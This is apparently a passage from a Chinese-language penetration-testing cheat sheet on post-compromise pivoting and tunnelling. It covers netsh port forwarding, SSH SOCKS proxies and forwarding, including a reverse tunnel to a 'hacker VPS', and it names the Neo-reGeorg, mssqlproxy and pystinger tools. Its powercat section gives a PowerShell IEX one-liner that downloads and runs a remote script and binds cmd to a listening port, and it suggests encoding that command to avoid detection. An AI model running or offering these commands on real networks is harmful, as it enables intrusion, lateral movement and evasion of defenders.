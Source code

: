 ## 2.1、判断出网

| ping     | icmp |
| -------- | ---- |
| curl     | http |
| nslookup | dns  |

## 2.2、netsh端口转发

```
A机器执行如下命令：
netsh interface portproxy add v4tov4 listenport=5555 connectport=3389 connectaddress=192.168.1.1  protocol=tcp
B机器访问A机器的5555端口，即是192.168.1.1的3389端口
```

## 2.3、ssh

ssh一般被拿来登录linux机器，也可以拿来做代理和转发。

```
a、开启socks代理：
ssh -qTfnN -D 1111 root@1.1.1.1
输入1.1.1.1机器密码，本地利用proxychains等类似工具连接本地的1111端口的sock5连接即可代理1.1.1.1的网络。

b、控制A、B机器，A能够访问B，且能出网，B能够访问C，但不能出网，A不能访问C：
A机器执行：
ssh -CNfg -L 2121:CIP:21 root@BIP
输入BIP机器密码，访问A的2121端口即是访问CIP的21端口。

c、控制A机器，A能够访问B：
A机器执行：
ssh -CNfg -R 2121:BIP:21 root@hackervps
输入黑客vps密码，访问黑客vps的2121端口即是访问BIP的21端口。
```

## 2.4、Neo-reGeorg

https://github.com/L-codes/Neo-reGeorg

```
python neoreg.py generate -k password
python3 neoreg.py -k password -u http://xx/tunnel.php
```

## 2.5、powercat

powercat是一款ps版nc。可以本地执行，也可以远程下载执行，远程执行命令如下：

powershell"IEX (New-Object  System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat-l -p 8000 -e cmd"

然后远程连接执行命令即可。如果嫌弃该命令太暴露，可以对其进行编码。

## 2.6、mssql

当目标机器只开放mssql时，我们也可以利用mssql执行clr作为传输通道。

环境如下：

## ![图片](https://mmbiz.qpic.cn/mmbiz_png/JMH1pEQ7qP4x1WtQSJiaRGssj1zt0Z1I0Qt2lZiaTtYuC5pRdyz5AaTxYroa2qicomzxUcyic2obRWBFZmSvM8ciadA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1) 



工具项目地址：

https://github.com/blackarrowsec/mssqlproxy

## 2.7、pystinger

https://github.com/FunnyWolf/pystinger